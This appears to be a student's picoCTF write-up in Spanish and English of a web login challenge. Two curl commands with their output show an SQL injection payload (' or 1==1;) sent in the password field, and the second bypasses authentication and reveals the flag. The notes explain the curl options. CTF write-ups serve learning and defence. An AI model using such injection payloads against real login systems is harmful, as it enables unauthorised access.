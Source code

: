 ## descripcion
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

## pistas
There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?

Try to think about how the website verifies your login.

![[Pasted image 20240305174811.png]]
## Solution

```
ulise@SSJ2 MINGW64 /d/Downloads/notas-hacking (main)
$ curl -s https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=admin&password=password&debug=1"
<pre>username: admin
password: password
SQL query: SELECT * FROM users WHERE name='admin' AND password='password'
</pre><h1>Login failed.</h1>
ulise@SSJ2 MINGW64 /d/Downloads/notas-hacking (main)
$ curl -s https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=admin&password=' or 1==1;&debug=1"
<pre>username: admin
password: ' or 1==1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1==1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>
ulise@SSJ2 MINGW64 /d/Downloads/notas-hacking (main)





```

utilizando la injeccion sql mostrada haya arriba se puede ingresar poniendola en el password. de forma web
# Logged in!

Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}
## notas

Comandos utilizados:
	1. `-s`: Es una opción que indica a `curl` que funcione en modo silencioso, lo que significa que no mostrará la barra de progreso ni mensajes de estado. Es útil cuando solo queremos los resultados de la solicitud HTTP.
	2. Esta opción `-d` envía datos POST al servidor. Aquí, se están enviando tres parámetros: `username` con valor `admin`, `password` con valor `password`, y `debug` con valor `1`. Estos son los datos que se enviarán al servidor como parte de la solicitud HTTP POST.


injeccion sql es un tipo de tecnica que puede destruir mi base de datos.

Cuando esta el debug en 1 sugiere que el formulario está diseñado para manejar diferentes escenarios dependiendo de si se está realizando una operación de depuración o no. Es importante tener en cuenta cómo se utiliza este parámetro en el backend para comprender completamente su efecto en la aplicación.




## references
